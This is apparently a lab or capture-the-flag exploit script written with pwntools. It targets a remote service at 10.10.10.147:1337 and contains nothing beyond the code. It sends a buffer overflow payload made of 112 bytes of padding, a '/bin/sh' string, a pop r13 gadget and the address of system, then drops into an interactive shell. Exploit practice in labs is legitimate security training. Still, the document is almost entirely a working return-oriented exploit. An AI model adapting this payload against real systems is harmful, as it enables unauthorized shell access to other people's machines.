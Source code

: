 #0x40115f - main  
#0x40116e - system  
from pwn import *  
context(terminal=['tmux','new-window'])  
p = remote('10.10.10.147', 1337)  
context(os='linux', arch='amd64')  
  
junk = ("A" * 112).encode()  
bin_sh = ("/bin/sh\x00").encode()  
system = p64(0x401040)  
pop_r13 = p64(0x401206)  
null = p64(0x0)  
test = p64(0x401152)  
  
#p.recvuntil('What do you want me to echo back?')  
p.sendline(junk + bin_sh + pop_r13 + system + null + null + test)  
p.interactive()